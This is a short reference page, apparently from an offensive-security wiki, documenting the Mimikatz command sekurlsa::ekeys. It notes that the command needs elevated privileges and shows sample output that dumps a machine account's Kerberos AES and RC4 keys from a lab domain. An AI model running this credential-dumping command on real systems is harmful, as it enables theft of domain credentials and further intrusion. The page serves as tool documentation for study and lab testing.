 # ekeys

`sekurlsa::ekeys` lists Kerberos encryption keys.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::ekeys

Authentication Id : 0 ; 697146 (00000000:000aa33a)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 10/17/2021 4:22:01 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427

         * Username : MediaAdmin$
         * Domain   : HACKLAB.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       d615e9a2f1e538d23478b03efb5ef470b16f352bbd9afa6f28408d1ff893c1c7
           rc4_hmac_nt       35950fdc8d3d99b4136510414009662d
           rc4_hmac_old      35950fdc8d3d99b4136510414009662d
           rc4_md4           35950fdc8d3d99b4136510414009662d
           rc4_hmac_nt_exp   35950fdc8d3d99b4136510414009662d
           rc4_hmac_old_exp  35950fdc8d3d99b4136510414009662d
```
